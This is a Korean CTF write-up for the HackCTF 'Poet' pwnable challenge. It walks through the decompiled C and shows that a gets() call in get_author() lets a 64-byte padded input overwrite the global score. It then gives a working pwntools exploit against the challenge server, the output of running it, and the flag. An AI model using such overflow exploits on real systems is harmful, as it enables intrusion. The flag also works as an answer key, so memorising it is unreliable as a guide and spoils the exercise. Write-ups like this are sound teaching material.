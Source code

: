 # Poet

---

`main()`은 다음과 같다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts(s);
  while ( 1 )
  {
    get_poem();
    get_author();
    rate_poem();
    if ( dword_6024E0 == 1000000 )
      break;
    puts(asc_400D78);
  }
  reward();
}
```

전체적인 흐름은 시와 작가를 입력받고 `rate_poem()`에서 시의 점수를 매겨서 그 점수가 1000000점이 되면 while문을 깨고 나와 `reward()`에서 flag를 알려준다.

`rate_poem()`은 다음과 같다.

```c
int rate_poem()
{
  char dest; // [rsp+0h] [rbp-410h]
  char *s1; // [rsp+408h] [rbp-8h]

  strcpy(&dest, poem);
  for ( s1 = strtok(&dest, " \n"); s1; s1 = strtok(0LL, " \n") )
  {
    if ( !strcmp(s1, "ESPR")
      || !strcmp(s1, "eat")
      || !strcmp(s1, "sleep")
      || !strcmp(s1, "pwn")
      || !strcmp(s1, "repeat")
      || !strcmp(s1, "CTF")
      || !strcmp(s1, "capture")
      || !strcmp(s1, "flag") )
    {
      dword_6024E0 += 100;
    }
  }
  return printf(asc_400BC0, poem, (unsigned int)dword_6024E0);
}
```

입력받은 poem을 strtok를 통해서 띄어쓰기 단위로 쪼개면서 ESPR, eat, sleep, pwn, repeat, CTF, capture, flag라는 단어가 있을 때마다 0x6024e0에 100점씩 더해진다.

시를 입력받는 함수인 `get_poem()`을 살펴보자.

```c
__int64 get_poem()
{
  __int64 result; // rax

  printf("Enter :\n> ");
  result = gets(poem);
  dword_6024E0 = 0;
  return result;
}
```

poem이라는 변수에 시를 입력받는다. 이때 poem의 위치는 0x6020a0이며 크기는 1024bytes이다. gets함수를 이용하였기에 bufferoverflow가 일어나서 eat과 같은 단어를 10000개 붙여서 문제를 풀 수 도 있겠지만 이렇게 하면 문자열의 길이가 너무 늘어나서 오류가 생기게 된다. 또한 새로 시를 입력받을 때마다 0x6024e0에 위치한 point를 초기화시켜주기 때문에 점수를 누적할 수도 없다.

그렇다면 author를 입력받을 때 bufferoverflow가 일어나는지 확인해보자.

다음은 `get_author()`함수이다.

```c
__int64 get_author()
{
  printf(&byte_400C38);
  return gets(&unk_6024A0);
}
```

gets함수를 이용하였기 때문에 bufferoverflow가 일어난다. 그리고 해당 문자열은 0x6024a0에 저장된다. 저자의 이름을 입력받을 때 다음과 같은 payload를 통해서 0x6024e0에 위치한 point값을 덮어 쓸 수 있을 것이다.

**[dummy 64bytes]+[hex(1000000) 4bytes]**

이를 이용하여 다음과 같은 익스 코드로 flag를 얻을 수 있다.


```python
from pwn import*

p=remote('ctf.j0n9hyun.xyz', 3012)

p.recvuntil('> ')

p.sendline('123')

p.recvuntil('> ')

payload='A'*64
payload+='\x40\x42\x0f\x00'

p.sendline(payload)

p.interactive()
```

---

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/12.Poet$ python ex2.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3012: Done
[*] Switching to interactive mode

+---------------------------------------------------------------------------+
시 내용
123
점수:1000000

축하합니다!

시 내용
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

2018년 시인 상을 받았습니다!!

보상:
HackCTF{0neSTEP_jun10rCTF}

+---------------------------------------------------------------------------+

[*] Got EOF while reading in interactive

```

**flag: HackCTF{0neSTEP_jun10rCTF}**



